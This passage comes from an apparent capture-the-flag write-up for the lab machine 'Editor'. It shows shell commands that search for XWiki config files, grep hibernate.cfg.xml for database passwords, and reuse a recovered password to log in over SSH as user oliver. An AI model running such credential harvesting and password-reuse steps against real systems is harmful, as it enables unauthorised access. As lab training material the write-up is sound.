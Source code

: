 Connecting to the db using the command below lead to nothing as we don't have a password: 
```bash
mysql -u xwiki -h 10.10.11.80
```

Now, the mistake in the `for` loop to look for config files didn't include `.cfg` files, which was the correct extension to the `xwiki` service:

```bash
find / -name *cf* 2>/dev/null | grep xwiki

/etc/xwiki/hibernate.cfg.xml
/etc/xwiki/hibernate.cfg.xml.ucf-dist
/etc/xwiki/xwiki.cfg
/var/lib/ucf/cache/:etc:xwiki:xwiki.cfg
/var/lib/ucf/cache/:etc:xwiki:hibernate.cfg.xml
/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
/usr/lib/xwiki/WEB-INF/xwiki.cfg
/usr/share/xwiki/templates/mysql/hibernate.cfg.xml
/usr/share/xwiki/default/xwiki.cfg
```

Our primary target file here will be the `/etc/xwiki/xwiki.cfg`, because as the documentation states, this might and will include primary and 
important components about the connections between the Java objects and the RDBRMS. 
We can consider it an API between the Java Objects and the database.

Which indeed proved correct: 
```bash 
cat /etc/xwiki/hibernate.cfg.xml | grep password
    <property name="hibernate.connection.password">THE PASSWORD OF XWIKI</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
```

And we got the `xwiki` user password of `MySQL` database.
>You should know that in the output of the `grep` command, the username isn't clear. I usually run this:
`cat <file> | less -S` and then use the `/password` and loop through the hits with `n` within the pager
because running grep won't show us the user of that password, nor the service to connect to using those creds.
{: .prompt-warning }

Before diving in the database, which may lead to a rabbit hole, I'll test for password re-use and `SSH` as Oliver using that passwod.

```bash
ssh oliver@editor.htb
oliver@editor:~$ cat user.txt 
<flag>
```
